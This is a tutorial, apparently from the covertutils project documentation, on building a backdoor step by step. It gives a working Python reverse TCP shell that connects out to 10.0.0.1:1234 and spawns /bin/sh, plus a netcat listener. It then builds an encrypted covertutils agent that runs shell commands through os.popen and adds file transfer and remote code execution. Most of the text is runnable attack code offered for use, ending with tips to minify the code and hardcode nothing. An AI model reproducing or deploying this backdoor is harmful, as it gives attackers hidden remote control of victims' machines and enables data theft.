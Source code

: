 Assembling a Backdoor **from Scratch** - *The Tutorial*
=======================================================




For Starters - Without `covertutils`
------------------------------------


The simplest possible reverse TCP shell in `Python` is the one below:

Agent
+++++

.. code:: python

	import socket,subprocess,os
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(("10.0.0.1",1234))
	os.dup2(s.fileno(),0)
	os.dup2(s.fileno(),1)
	os.dup2(s.fileno(),2)
	p=subprocess.call(["/bin/sh","-i"]);

Source is the everlasting PentestMonkey_ .

.. _PentestMonkey : http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet


When these commands run on the compromised host a reverse TCP connection spawns towards `10.0.0.1:1234`. The compromised host then maps all input and output of this TCP connection to a process, started by the ``/bin/sh`` binary.

So the other side of the TCP connection directly interacts with the remote process (which happens to be `a shell`).
But I bet that you know all that.



So this code snippet above is the `Agent`. Moving on...



Handler
+++++++

.. code:: bash

	$ nc -nlvp 1234

The `Handler` just needs to accept the TCP connection. Sending any data through that connection will result into running them in the remote `shell` process.


So, the ingredients of this backdoor are the following:

 - `Agent`: The Python code
 - `Handler` : The ``netcat`` bind listen command
 - `Communication Channel` : TCP connection
 - `Commands` : `plaintext` shell commands and responses come and go


Main Course - With `covertutils`
--------------------------------


Let's remake a `reverse TCP shell`, but that time using `covertutils`.

Agent
+++++



Orchestration Step
^^^^^^^^^^^^^^^^^^

First we are gonna need an ``Orchestrator`` object. This will **password-protect our communication**, providing us fixed-size byte arrays. Those bytes can be transmitted in any way, plus recognized **amongst random data**.

.. code:: python

	from covertutils.orchestration import SimpleOrchestrator

	orch_obj = SimpleOrchestrator(
		"Our passphrase can be anything! &^&%{}",
		out_length = 20,
		in_length = 20,
		)


Done. Now we are sure that all byte arrays leaving our side will have a fixed length of 20 bytes (even if we send a plain ``whoami`` command which consists of 6 bytes). This is in case we need to fit them somewhere where a fixed bytelength is needed...

We also have to be sure that every byte array arriving to our side is also of 20 bytes exactly.

Finally, the arrays are `crypto-scrambled` using derivatives of our `passphrase`, so they will look gibberish to anyone that doesn't have that `passphrase`.

Communication Channel Step
^^^^^^^^^^^^^^^^^^^^^^^^^^

Then, we have to provide wrappers for the `Communication Channel`. TCP that is. So, making a ``send( data )`` and a ``recv()`` blocking function will be dead simple:

.. code:: python

	import socket
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(("10.0.0.1",1234))

	def send( data ) :
		s.send( data )

	def recv() :
		return s.recv(4096)	# This will automatically block as socket.recv() is a blocking method


All set. Special needs on data that will go through the wire can be coded in those functions too!

For example, if we need all data to travel in ``base64``, then we create the ``send( data )`` and ``recv()`` as below:

.. code:: python

	import codecs

	def send( data ) :
		s.send( codecs.encode( data, 'base64') )	# Data will travel in Base64

	def recv() :
		data = s.recv(4096)
		return codecs.decode( data, 'base64')	# Raw bytes will be finally received


.. note:: This won't affect the ``SimpleOrchestrator``'s byte length assertion of 20 bytes, as the ``recv()`` function decodes the data to the original byte length.


Feature Step
^^^^^^^^^^^^

Now, that `Data Orchestration` and `Communication Channel` are all set, we need to define the features of this backdoor!

So, let's make some cool stuff using the ``BaseHandler`` first !



.. code:: python

	from covertutils.handlers import BaseHandler

	class MyAgent_Handler( BaseHandler ) :
		""" This class tries hard to be self-explanatory """

		def __init__(self, recv, send, orch, **kw) :
			super( MyAgent_Handler, self ).__init__( recv, send, orch, **kw )
			print ( "[!] Agent with Orchestrator ID: '{}' started!".format( orch.getIdentity() ) )
			print()


		def onMessage( self, stream, message ) :
			print ( "[+] Message arrived!" )
			print ( "{} -> {}".format(stream, message) )
			print ("[>] Sending the received message in reverse order!")
			self.preferred_send( message[::-1] )	# Will respond with the reverse of what was received!

		def onChunk( self, stream, message ) :
			print ( "[+] Chunk arrived for stream '{}' !".format(stream) )
			if message :
				print ("[*] Message assembled. onMessage() will be called next!")
			print()

		def onNotRecognised(self) :
			print ("[-] Got some Gibberish")
			print ("Initialized the Orchestrator with wrong passphrase?")
			print()


Those methods will be called **automatically** by an internal thread (no need to start it manually), so anything written to their bodies will run when circumstances meet.


Putting it all together!
^^^^^^^^^^^^^^^^^^^^^^^^


.. code :: python

	handler_obj = MyAgent_Handler(recv, send, orch_obj)

	from time import sleep

	while True : sleep(10)


**Done!**

Once this script runs, and the ``MyAgent_Handler`` gets instantiated, it will listen to the TCP connection (`internal thread magic`) and run the ``on*`` methods automatically.

As all backdoor functionality is implemented in those methods (sending back the received messages reversed - `reverse echo`), our **Agent is FINISHED!**


With such agent we can't have a simple ``netcat`` `Handler` though... We need something bigger. Let's jump to it...


Handler
+++++++



Orchestration Step
^^^^^^^^^^^^^^^^^^

Same stuff:

.. code:: python

	from covertutils.orchestration import SimpleOrchestrator

	orch_obj = SimpleOrchestrator(
		"Our passphrase can be anything! &^&%{}",
		out_length = 20,
		in_length = 20,
		reverse = True,	# <-------
		)

Just do not forget the ``reverse = True`` argument to create the `complementary` encryption keys and stuff. This is **all internal**, no need to care.


.. warning :: Oh, and passing a different `passphrase` will result in your backdoor not working. I bet you could see that coming!


Pretty straightforward, moving on...


Communication Channel Step
^^^^^^^^^^^^^^^^^^^^^^^^^^

As we have a `Reverse TCP` connection, our `Handler` must be a `TCP listener`.

Pure python socket magic ahead:

.. code ::

	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)	# To make the port immediately available after killing - gimmick
	s.bind( addr )
	s.listen(5)

	client, client_addr = s.accept()



And our wrappers:


.. code ::


	def recv () :		# Create wrappers for networking
		return client.recv( 50 )

	def send( raw ) :		# Create wrappers for networking
		return client.send( raw )



Feature Step
^^^^^^^^^^^^

.. code:: python

	from covertutils.handlers import BaseHandler

	class MyHandler_Handler( BaseHandler ) :
		""" This class tries hard to be self-explanatory """

		def __init__(self, recv, send, orch, **kw) :
			super( MyHandler_Handler, self ).__init__( recv, send, orch, **kw )
			print ( "[!] Handler with Orchestrator ID: '{}' started!".format( orch.getIdentity() ) )
			print()


		def onMessage( self, stream, message ) :
			print ( "[+] Message arrived!" )
			print ( "{} -> {}".format(stream, message) )
			print ( "[<] Original Message {}".format(message[::-1]) ) # <-------

		def onChunk( self, stream, message ) :
			print ( "[+] Chunk arrived for stream '{}' !".format(stream) )
			if message :
				print ("[*] Message assembled. onMessage() will be called next!")
			print()

		def onNotRecognised(self) :
			print ("[-] Got some Gibberish")
			print ("Initialized the Orchestrator with wrong passphrase?")
			print()


So the plan is that for `PoC purposes` the `Agent` will read all messages sent to it and respond with their `reversed` form.
The `Handler` though, will display to the user the reversed form of what it received, finally printing the original message.




Putting it all together!
^^^^^^^^^^^^^^^^^^^^^^^^

.. code :: python

	handler_obj = MyHandler_Handler(recv, send, orch_obj)

This time we need to interact with the ``handler_obj`` instance, in order to actually send stuff to our `Agent`.
For that we can use the :meth:`preferred_send` method of the :class:`BaseHandler` class which honors the `Behavior` of the `Handler` object (more on this at :ref:`behaviors`).




.. code :: python


	try: input = raw_input	# Python 2/3 nonsense
	except NameError: pass	# (fuck my life)

	while True :
		inp = input("~~~> ")
		if inp :
			handler_obj.preferred_send( inp )


Here we got a custom shell that gets user input and sends it over.

There is a vastly better way but I'll leave it for **Dessert**.


Dessert - Real Life Backdoor With `covertutils`
-----------------------------------------------


Here we will use the goodies that are found in the ``impl`` sub-packages to snip away most of the code while actually adding functionality!


Agent
+++++

The `Orchestration Step` is boringly same. Blah, blah `encryption`, blah blah `chunks`, blah...

The same goes for `Communication Channel Step`. It's a TCP connection. No magic there.

Let's move to the juicy part!


Feature Step
^^^^^^^^^^^^

Let's make our backdoor to actually run shell commands! We could do that by hand, with:

.. code:: python

	import os

	# [...] Handler Class definition

		def onMessage(self, stream, message) :
			resp = os.popen(message).read()

	# [...] Overriding rest of the on*() methods


And sending the response back to the `Handler` would be as easy as:

.. code:: python

	import os

	# [...] Handler Class definition

		def onMessage(self, stream, message) :
			resp = os.popen(message).read()
			self.preferred_send(resp)	# <-------

	# [...] Overriding rest of the on*() methods


**But**

The class ``ExtendableShellHandler`` (docs @ :class:`covertutils.handlers.impl.extendableshell.ExtendableShellHandler`) does provide:

 - OS shell commands
 - Python remote interpretation in the stage module API (see: :ref:`stage_api_page`)
 - `File upload/download` functionality
 - Extendability through the `module staging system` (see: :ref:`stages_page`)
 - Agent Control stream, for `OTP key resetting` and `connection reclaiming`

All above things will run on different `Streams` (see: :ref:`streams_arch`), meaning that they will have different OTP keys.

Plus all those will be done **without the need to make an inheriting class** (as it is in ``impl`` subpackage)!

.. note:: That is except when you need any behaviors `Handler` classes - see: :ref:`behaviors`. If that is the case you can create a class inheriting both from ``ExtendableShellHandler`` and a behavior `Handler` class (e.g. ``InterrogatingHandler`` class - Docs @ :class:`covertutils.handlers.interrogating.InterrogatingHandler`). **Multiple Inheritance Rocks!**


So the code would be like:

.. code:: python

	from covertutils.handlers.impl import ExtendableShellHandler

	ext_handler_obj = ExtendableShellHandler(recv, send, orch_obj)

	from time import sleep

	while True : sleep(10)


Let's go to the `Handler` and ask for the `Check`...


Handler
+++++++


Same boring stuff for `Orchestration Step` and `Communication Channel Step`.



Feature Step
^^^^^^^^^^^^

The `Handler` part here shouldn't change too.

.. code:: python

	# ========== Completely Unchanged ==========
	from covertutils.handlers import BaseHandler

	class MyHandler_Handler( BaseHandler ) :
		""" This class tries hard to be self-explanatory """

		def __init__(self, recv, send, orch, **kw) :
			super( MyHandler_Handler, self ).__init__( recv, send, orch, **kw )
			print ( "[!] Handler with Orchestrator ID: '{}' started!".format( orch.getIdentity() ) )
			print()


		def onMessage( self, stream, message ) :
			print ( "[+] Message arrived!" )
			print ( "{} -> {}".format(stream, message) )
			print ( "[<] Original Message {}".format(message[::-1]) )	# <-------

		def onChunk( self, stream, message ) :
			print ( "[+] Chunk arrived for stream '{}' !".format(stream) )
			if message :
				print ("[*] Message assembled. onMessage() will be called next!")
			print()

		def onNotRecognised(self) :
			print ("[-] Got some Gibberish")
			print ("Initialized the Orchestrator with wrong passphrase?")
			print()
	# ==========================================

It has to be instantiated as well:


.. code :: python

	handler_obj = MyHandler_Handler(recv, send, orch_obj)


But here we will do a lil' change. We won't use that shitty ``[raw_]input`` shell! There are great shell alternatives in :mod:`covertutils.shell.impl`, perfectly pairing with classes in the :mod:`covertutils.handlers.impl` sub-package.

For the ``ExtendableShellHandler`` that is running in the other side, the ``ExtendableShell`` (Docs @ :class:`covertutils.shells.impl.extendableshell.ExtendableShell` will fit just great!

It provides all needed support to interact with the awaiting `Agent`, by using the SubShells corresponding to ``ExtendableShellHandler`` preloaded `stage modules`.


**AND**

As the ``ExtendableShell`` handles all `printing to the screen` the ``MyHandler_Handler`` class can be as `barebones` as:

.. code :: python

	from covertutils.handlers import BaseHandler

	class MyHandler_Handler( BaseHandler ) :
		""" This class tries hard to be self-explanatory """

		def __init__(self, recv, send, orch, **kw) :
			super( MyHandler_Handler, self ).__init__( recv, send, orch, **kw )
			print ( "[!] Handler with Orchestrator ID: '{}' started!".format( orch.getIdentity() ) )

		def onMessage( self, stream, message ) :	pass

		def onChunk( self, stream, message ) :	pass

		def onNotRecognised(self) :	pass




And the code for instantiation looks like this:


.. code :: python

	shell = ExtendableShell(handler_obj, prompt = "MyFirst {package} Shell> ")
	shell.start()





The Check
---------


Congrats hoodie guy! You made your first `Reverse TCP Backdoor`!

Throw in some `parameterization` (**un-hardcode** `passphrase` and addresses), `code minification` (pyMinify_ that code) and `connection re-attempt mechanism` (see :ref:`rev_tcp`), and you are done!

**This will cost you 0$ sir...**

.. _pyMinify : https://liftoff.github.io/pyminifier/


*Be polite enough to `share your creations`. Or at least sell them `for the same price`...
